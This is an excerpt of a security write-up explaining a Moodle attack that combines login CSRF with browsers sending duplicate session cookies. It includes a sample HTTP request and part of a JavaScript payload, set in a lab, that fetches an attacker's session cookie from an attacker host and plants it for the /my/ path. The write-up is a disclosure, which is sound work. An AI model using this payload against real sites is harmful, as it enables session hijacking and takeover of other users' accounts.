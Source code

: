 ```http
GET /my/ HTTP/1.1
...
Cookie: MoodleSession=0ab0af2b5369369af1fae6b097cf64f7; MoodleSession=d879cda2c1b27a4eefa02e7a48a63d73
```

This is a result of PHP’s behaviour for handling multiple cookies, which leads to only the first cookie being present in the `$_COOKIE` superglobal.

### Browsers
Chrome and Firefox[^1] will generate a request containing duplicate cookies, such as the one above, when different values of the same cookie are set with different paths. So, say there are two cookies are set in the browser:


- a cookie named `MoodleSession` with a path of `/` containing a session identifier associated with Alice’s account; and
- a cookie named `MoodleSession` with a path of `/my/` containing a session identifier associated with Bob’s account.

This will lead to only Alice’s session cookie being sent in requests to paths outside of `/my/`, and both session cookies being sent in requests to `/my/`, which is the path of the user’s dashboard in Moodle. It appears that both Chrome and Firefox will send cookies with more restrictive paths first, so Bob’s session cookie will be the one sent first, and hence used by Moodle, when the browser requests `/my/`. A user of this browser will see all of the site as though they are logged in as Alice, apart from `/my/`, which will show Bob’s dashboard.

[^1]: Other browsers untested.

## Exploiting
The combination of CSRF on the login form and the double session cookie behaviour gives us all we need to target other users with JavaScript embedded on our dashboard. The setup I’m using is a Moodle installation located at *http://moodle.lab.local*, which contains an administrator account named admin, and a low privileged account which the attacker has access to, named attacker. There is also a server belonging to the attacker at *attacker.lab.local*. All the files used are available in [this GitHub repository](https://github.com/danielthatcher/moodle-login-csrf).

### Setup
First the attacker embeds a script such as [the one from the GitHub repository](https://github.com/danielthatcher/moodle-login-csrf/blob/master/moodle.js), part of which is shown below, in their dashboard. This is most easily done by adding a new HTML block and using an intercepting proxy such as BurpSuite.

```js
// Target site, without a trailing slash
let moodleRoot = "http://moodle.lab.local";

// Attacker site without a trailing slash
let attackerRoot = "http://attacker.lab.local";

// Use the "poisoned" cookie to tell if the first stage has been completed
if (!document.cookie.includes("poisoned")) { // First stage
    let callback = function() {
        let attackerCookie = this.responseText;
        document.cookie = "MoodleSession=" + attackerCookie + "; path=/my/; expires=Thu, 31 Dec 2020 01:00:00 UTC;";
        document.cookie = "poisoned=1; path=/my/; expires=Thu, 31 Dec 2020 01:00:00 UTC;";
        
        // Have to logout now as can't clear cookie
        let logoutURL = document.querySelector("a[data-title='logout,moodle']").href;
        document.location.replace(logoutURL);
    };

    // Send off for attacker's cookie
    let req = new XMLHttpRequest();
    req.addEventListener("load", callback);
```

[^2]: The attacker’s server must return the header Access-Control-Allow-Origin: * or equivalent along with the result of this script to allow the value to be read by JavaScript cross-domain on line 10.
[^3]: Again this needs to be returned with the Access-Control-Allow-Origin: * header.